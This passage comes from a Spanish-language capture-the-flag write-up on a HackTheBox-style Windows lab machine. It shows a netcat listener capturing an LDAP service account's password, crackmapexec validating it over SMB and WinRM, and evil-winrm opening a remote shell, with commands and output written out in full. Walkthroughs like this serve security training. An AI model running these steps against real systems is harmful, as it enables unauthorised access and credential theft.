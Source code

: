 ```bash
❯ nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.108] 59080
0*`%return\svc-printer�
                       1edFg43012!!
```

### Validación de Credenciales
Una vez obtenidas las credenciales LDAP, se procedió a verificar su validez en otros servicios expuestos en el sistema. Utilizando la herramienta crackmapexec sobre el puerto SMB (445), se confirmó que las credenciales svc-printer:1edFg43012!! son válidas dentro del dominio return.local, lo cual evidencia que la cuenta tiene permisos válidos de autenticación en el sistema operativo:
```bash
❯ crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
```

### Acceso Inicial vía WinRM
Tras validar las credenciales, se intentó el acceso al servicio WinRM (5985), el cual se encontraba habilitado en la máquina objetivo. Utilizando nuevamente crackmapexec, se comprobó que las credenciales svc-printer:1edFg43012!! también permiten autenticarse exitosamente a través de este servicio, obteniendo así un punto de acceso remoto a la máquina:
```bash
❯ crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
HTTP        10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

### Obtención de Shell Remota
Con las credenciales válidas previamente obtenidas, se estableció una conexión interactiva al sistema mediante Evil-WinRM, herramienta que permite interactuar con sistemas Windows a través del servicio WinRM. Una vez conectado, se verificó que la sesión corresponde al usuario comprometido:
```bash
❯ evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```

